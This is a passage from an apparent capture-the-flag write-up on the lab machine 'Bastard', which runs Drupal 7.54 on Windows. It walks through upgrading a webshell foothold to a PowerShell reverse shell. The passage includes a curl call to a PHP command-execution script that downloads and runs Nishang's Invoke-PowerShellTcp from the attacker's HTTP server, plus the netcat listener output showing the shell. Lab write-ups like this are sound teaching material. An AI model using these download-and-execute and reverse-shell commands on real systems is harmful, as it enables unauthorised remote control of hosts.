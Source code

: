 ```

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v3.5
    SP    REG_DWORD    0x0


C:\inetpub\drupal-7.54>
```

We see that the target system has version "2.0.50727.4927" installed. At the time of writing this, "winPEAS" requires ".Net >= 4.5.2".&#x20;

### Shell upgrade to Powershell

Even as the "nt authority\iusr" user, we are still unable to change into a powershell shell in our reverse shell session. To do this, we'll use the same process as before, except, instead of transferring the file via SMB, we'll do the transfer via HTTP.

Start a new netcat listener.

Download the "Invoke-PowerShellTcp.ps1" script from the following github repo:

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}

Modify the powershell script to run the command by adding it to the end of the script as follows, and then save it.

> Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 9999

Start a python3 webserver in the same directory as the powershell script:

```
└─$ sudo python3 -m http.server 80                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

We'll use the following "curl" command via our PHP command execution script to download and run the powershell script:

> curl -X GET "http://10.10.10.9/rce.php?cmd=powershell IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"

We'll need to "URL encode" this as well:

> curl -X GET "http://10.10.10.9/rce.php?cmd=powershell%20IEX%28New%2DObject%20Net%2EWebclient%29%2EDownloadString%28%27http%3A%2F%2F10%2E10%2E14%2E10%2FInvoke%2DPowerShellTcp%2Eps1%27%29"

Run it:

```
└─$ curl -X GET "http://10.10.10.9/rce.php?cmd=powershell%20IEX%28New%2DObject%20Net%2EWebclient%29%2EDownloadString%28%27http%3A%2F%2F10%2E10%2E14%2E10%2FInvoke%2DPowerShellTcp%2Eps1%27%29"

```

In our listener, we get a powershell session:

```
└─$ rlwrap nc -nvlp 9999                                                                                   130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:65388.
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\iusr
```
